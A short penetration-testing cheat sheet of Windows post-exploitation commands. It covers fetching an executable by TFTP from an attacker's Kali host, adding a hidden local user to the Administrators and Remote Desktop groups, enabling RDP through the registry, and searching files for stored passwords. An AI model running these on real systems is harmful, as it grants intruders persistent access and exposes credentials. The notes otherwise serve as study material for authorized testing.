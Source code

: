 # Random Useful Windows Commands and Enum Stuff
### Install TFTP (Windows 7, Windows Vista, Windows Server 2008/2008 R2)
pkgmgr /iu:"TFTP"

C:\>tftp -i IPADDRESS get FILE.EXE
	
Make sure it is set up/running on Kali

mkdir /tftp

atftpd --daemon --port 69 /tftp

cp /FILE.EXE /tftp/


### Add a local user account
net user tester testing /ADD

### Add a local user account to the Local Administrators group
net localgroup administrators tester /ADD

### Add a local user account to the Remote Desktop Users group
net localgroup "Remote Desktop Users" tester /ADD

### Enable RDP on the system (port 3389)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Search for a file
C:\> dir filename.txt /s

### Search for a string in all files
findstr /S /I /M password c: \*

  Go crazy:   findstr /si password *.txt | *.xml | *.ini | *.doc | *.snt | *.html | *.rtf | *.docx | *.eml | *.msg
	  
	  More info on options: https://en.wikipedia.org/wiki/Findstr

### Windows System Version
systeminfo | findstr /B /C: "OS Name" /C:"OS Version"

systeminfo

ver

### Services
tasklist /v

### Switch user with psexec/psexec64 (useful if you have admin creds)

psexec64 -accepteula

psexec64 -u username cmd.exe


### Directory Traversal
Windows/system32/Eula.txt -- May show exact version of Windows running including Language (on older systems)
